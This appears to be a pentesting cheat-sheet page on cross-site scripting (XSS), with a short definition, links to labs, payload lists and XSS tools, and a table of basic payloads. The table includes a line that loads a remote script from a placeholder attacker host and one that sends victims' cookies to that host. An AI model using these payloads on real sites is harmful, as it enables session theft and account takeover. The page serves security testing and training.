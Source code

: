 # Cross Site Scripting (XSS)

## **Introduction**

> Cross-Site Scripting (XSS) is a web security vulnerability that allows an attacker to compromise the interactions that users have with a vulnerable application.\
> XSS normally allows an attacker to masquerade as a victim user, carrying out any actions that the user is able to perform and accessing any of the user's data.\
> **Source:** [https://portswigger.net/web-security/cross-site-scripting](https://portswigger.net/web-security/cross-site-scripting)

***

## **XSS Useful References**

{% hint style="info" %}
Awesome labs to train your XSS skills:\
[https://xssy.uk/](https://xssy.uk/)
{% endhint %}

* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)
* [https://github.com/s0md3v/AwesomeXSS?tab=readme-ov-file#awesome-bypassing](https://github.com/s0md3v/AwesomeXSS?tab=readme-ov-file#awesome-bypassing)
* [https://github.com/payloadbox/xss-payload-list](https://github.com/payloadbox/xss-payload-list)

***

## **XSS Tools**

* [https://github.com/alessio-romano/UniXSS](https://github.com/alessio-romano/UniXSS)
* [https://github.com/s0md3v/XSStrike](https://github.com/s0md3v/XSStrike)
* [https://github.com/rajeshmajumdar/BruteXSS](https://github.com/rajeshmajumdar/BruteXSS)
* [https://github.com/epsylon/xsser](https://github.com/epsylon/xsser)

***

## **Basic XSS Payloads**

| Code                                                                            | Description               |
| ------------------------------------------------------------------------------- | ------------------------- |
| `<script>alert(window.origin)</script>`                                         | Basic XSS Payload         |
| `<plaintext>`                                                                   | Basic XSS Payload         |
| `<script>print()</script>`                                                      | Basic XSS Payload         |
| `<img src="" onerror=alert(window.origin)>`                                     | HTML-based XSS Payload    |
| `<script src="http://OUR_IP/script.js"></script>`                               | Load remote script        |
| `<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>` | Send Cookie details to us |
